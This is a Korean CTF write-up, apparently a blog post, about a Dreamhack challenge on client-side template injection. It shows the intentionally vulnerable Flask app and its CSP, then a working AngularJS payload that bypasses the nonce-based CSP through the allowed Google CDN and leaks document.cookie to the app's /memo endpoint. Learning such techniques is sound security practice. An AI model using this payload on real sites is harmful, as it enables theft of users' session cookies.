 ```yaml
---
title: "[2025-08-12] CSTI"
excerpt: "CSTI"

categories:
  - Problem
tags:
  - [XSS, CSTI]

permalink: /Problem/[2025-08-12] CSTI/

toc: true
toc_sticky: true

date: 2025-08-12
last_modified_at: 2025-08-12
---
```


## 🦥 본문

- app.py

```jsx
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'nonce-{nonce}' 'unsafe-eval' https://ajax.googleapis.com; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)

```

- memo.html

```jsx
{% block content %}
  <pre>{% raw %}{{ memo }}{% endraw %}</pre>
{% endblock %}
```

위의 코드들을 기존의 XSS 코드들과 비슷하다. 추가적으로 memo.html에서 템플릿이 사용된다.

CSP는 `script-src`는  `script-src 'nonce-{nonce}' 'unsafe-eval' [https://ajax.googleapis.com](https://ajax.googleapis.com/);` 을 허용하고 있다.

nonce가 있으니 <script src=””> 방식을 사용해야 한다. 또한 템플릿이 있고 `'unsafe-eval' [https://ajax.googleapis.com](https://ajax.googleapis.com/);` 을 허용하였기 때문에 AngularJS 의 Injection을 사용하면 될 것 같다

### 풀이

```jsx
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script><html ng-app>{% raw %}{{ constructor.constructor("location='memo?memo='+document.cookie")() }}{% endraw %}</html>
```

- `<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script>` : AngularJS 라이브러리를 불러온다.
- `<html ng-app>` : `html` 태그 내에서`ng-app` 을 통해 ng-로시작하는 디렉티브나 {% raw %}{{…}}{% endraw %}
을 찾고 자바스크립트 코드로 평가하여 HTML에 삽입
- 생성자를 이용하여 자바스크립트 코드 실행